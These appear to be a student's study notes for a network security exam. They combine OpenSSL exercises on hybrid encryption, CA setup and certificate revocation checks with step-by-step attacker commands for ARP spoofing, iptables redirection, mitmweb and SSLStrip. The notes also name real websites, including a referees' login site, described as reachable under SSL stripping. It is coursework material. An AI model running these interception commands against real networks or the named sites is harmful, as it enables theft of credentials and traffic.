# NS FINAL EXAM
## MITM 

### Attacker's machine

- To perform the arpspoofing

```sh
sudo arpspoof -i <INTERFACE> -t <VICTIM IP> <GATEWAY IP>
```

- Iptables rules to forward the traffic

```sh
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <PORT TO LISTEN>
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port <PORT TO LISTEN>
```
- Edit ` /etc/sysctl.conf` and add the following lines

```sh
net.ipv4.ip_forward = 1
net.ipv4.conf.all.send_redirects = 0
```
After that, execute `sudo sysctl -p` to reload the file


- To setup the MITM webserver

```sh
sudo mitmweb --mode transparent --showhost -p <PORT TO LISTEN>
```

### Victim's machine

- Nothing special, only reject the security warnings to access internet

## SSLStrip 
### Attacker's machine

- To perform the arpspoofing

```sh
sudo arpspoof <INTERFACE> eth1 -t <VICTIM IP> <GATEWAY IP>
```

- Iptables rules to forward the traffic

```sh
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <PORT TO LISTEN>
```
- Edit ` /etc/sysctl.conf` and add the following lines

```sh
net.ipv4.ip_forward = 1
net.ipv4.conf.all.send_redirects = 0
```
After that, execute `sudo sysctl -p` to reload the file



- Follow the steps on https://github.com/juanelas/sslstrip to install the `sslstrip` tool. Then climb to `sslstrip` directory and execute

```sh
sslstrip -l <PORT TO LISTEN>
```

### Victim's machine

Due to HSTS, some webpages are unaccesible when the attacks is performed. Here is a list of websites that are accesible when the attack is performed or you can check any other webpage in https://hstspreload.org/:

- banc.com
- intranet.fcf.cat P.D: No diguis que aquesta té l'error, es la que fem servir els arbitres per accedir a les actes ;)
- albertazemar.com
- ericmonne.cat



# Mid-Term Retake

## Symmetric key

### Alice
```sh
$ openssl genrsa -out privAlice.pem 3072
$ openssl rsa -in privAlice.pem -pubout -out pubAlice.pem

$ openssl rand -hex 32 > symKey.bin
$ openssl rand -hex 16 > IV.bin

$ openssl enc -aes-256-cbc -in naranjo.jpg -out naranjo_cipher.enc -K \`cat symKey.bin\` -iv \` cat IV.bin \` -a
$ openssl rsautl -encrypt -in symKey.bin -out symKeyCiphered.enc -inkey pubBob.pem -pubin
$ openssl dgst -sha256 -sign privAlice.pem -out signature.s256 naranjo.jpg
```

### Bob

```sh
$ openssl genrsa -out privBob.pem 3072
$ openssl rsa -in privBob.pem -pubout -out pubBob.pem

$ openssl rsautl -decrypt -in symKeyCiphered.enc -out 
symKeyDeciphered.bin -inkey privBob.pem
$ diff symkey.bin symKeyDeciphered.bin //optional
$ openssl enc -aes-256-cbc -d -in naranjo_cipher.enc -out naranjoDeciphered.jpg -K \`cat symKeyDeciphered.bin\` -iv \` cat IV.bin \` -a
$ openssl dgst -sha256 -verify pubAlice.pem -signature signature.s256 naranjoDeciphered.jpg
```

## CA Root
### Creating the CA

1. Create a directory for the CA
```sh
$ mkdir <DIRECTORY_NAME>
```
2. Climb to the directory that you just created and copy the file that you created in the LAB WORK
```sh
$ cp PATH/TO/FILE .
```
3. Create the directories and files needed
```sh
$ mkdir certs crl newcerts private requests
$ touch index.txt
$ echo 00 > crlnumber
```
4. Create the CA's private key and its CSR

```sh
$ openssl req -config openssl.cnf -new -keyout private/cakey.pem -out requests/careq.pem
```
**You will need to provide several info as password for the private key, CA's CN, etc.**

5. Sign the CA's CSR

```sh
$ openssl ca -config openssl.cnf -extensions v3_ca -days 3652 -create_serial -selfsign -in requests/careq.pem -out cacert.pem
```
**You will need to provide the CA's private key password to complete this step.**
6. Check the certifcate
```sh
$ openssl x509 -noout -text -in cacert.pem
```

### Issuing a WebServer certifcate

1. Create the WebServer's private key and its CSR
```sh
$ openssl req -new -addext 'subjectAltName = IP:<WEBSERVER_IP>' -nodes -keyout tls/webserver.key.pem -out webserver.csr.pem
```
**You will need to provide several info as password for the private key, webserver's CN, etc.**

2. Sign the WebServer CSR with the CA created previously (You should go first to the CA directory)
```sh
$ openssl ca -config openssl.cnf -extensions server_cert -in requests/webserver.csr.pem -out certs/webserver.crt.pem
```
**You will need to provide the CA's private key password to complete this step.**


### Verify CRL

- Get CRL URI
```sh
$ openssl x509 -noout -text -in wikipedia.pem | grep -A 4 'X509v3 CRL Distribution Points'
```

- Download
```sh
$ wget -O crl.der <CRL_URI>
```

- Cast DEM to PEM
```sh
$ openssl crl -inform DER -in crl.der -outform PEM -out crl.pem
```

## Certificate Verification Status

Checking certificate cert.pem signature
```sh
$ openssl verify -CAfile cacert.pem cert.pem
```

Inspecting certificate cert.pem
```sh
$ openssl x509 -in cert.pem -text -noout
```

And check that:
- The certificate is current
- The Common Name or the X509v3 Subject Alternative Name (SAN)extension includes the domain/hostname you are connecting to
- The purpose (Extended Key Usage Extension) is "TLS Web Server Authentication"
- Get OCSP responder url to check revocation status. It is always "http://147.83.118.30:11500"


Check revocation status:
```sh
$ openssl ocsp -CAfile cacert.pem -url http://147.83.118.30:11500 -resp_text -issuer cacert.pem -cert cert.pem
```
